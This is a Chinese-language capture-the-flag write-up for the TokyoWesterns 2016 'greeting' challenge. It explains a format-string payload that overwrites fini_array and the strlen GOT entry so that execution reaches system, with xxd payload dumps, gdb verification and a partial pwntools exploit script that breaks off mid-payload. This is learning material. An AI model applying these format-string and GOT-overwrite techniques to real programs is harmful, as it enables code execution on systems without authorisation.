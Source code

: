 
# payload 说明

采取双字节为写入的单位，其中将`fini_array`覆写为 `main 中 getnline的位置` 并不需要全都修改，高两字节内容一致，因此使用 `%12$hn`，其余的同理
```shell
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ xxd ./test_payload/test1                          
00000000: 5454 3499 0408 2531 3224 686e            TT4...%12$hn
# gdb 调试 test1
gef➤  x/wx 0x08049934
0x8049934:      0x080485a0  # before printf
gef➤  x/wx 0x08049934
0x8049934:      0x08040018  # after printf
# 除去输入的 paading 两字节，地址四字节，输出了18字节内容，0x18（24） - 6 = 18
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ xxd ./test_payload/test4                          
00000000: 5454 3499 0408 549a 0408 569a 0408 2533  TT4...T...V...%3
00000010: 3432 3932 6325 3132 2468 6e25 3635 3134  4292c%12$hn%6514
00000020: 3863 2531 3324 686e 2533 3336 3532 6325  8c%13$hn%33652c%
00000030: 3134 2468 6e                             14$hn
```
payload 包含两字节 padding， 3个四字节地址，共14字节，
0x8614 = 34324 - 32 = 34292
0x18490 = 99472 - 34324 = 65148
0x20804 = 133124 - 99472 = 33652

# gdb 验证
```shell
gef➤  x/wx 0x08049934
0x8049934:      0x08048614 
gef➤  x/wx 0x08049a54
0x8049a54 <strlen@got.plt>:     0x08048490


[#0] Id 1, Name: "greeting", stopped 0x8048490 in system@plt (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048490 → system@plt()   # 原先是 strlen
[#1] 0x80486c7 → getnline()
[#2] 0x8048628 → main()
```


# exp
```python
from pwn import *

# context.log_level = "debug"
pipe = process("./greeting")

print(pipe.recvuntil("... "))

# addr to overwrite
fini_array = 0x08049934
strlenGOT = 0x08049a54

# overwrite to
addrGetnline = 0x08048614   # low 2 byte diff
systemcall = 0x08048490 # low 2 byte diff

payload = "TT"      # padding
payload += p32(fini_array)
payload += p32(strlenGOT)
```
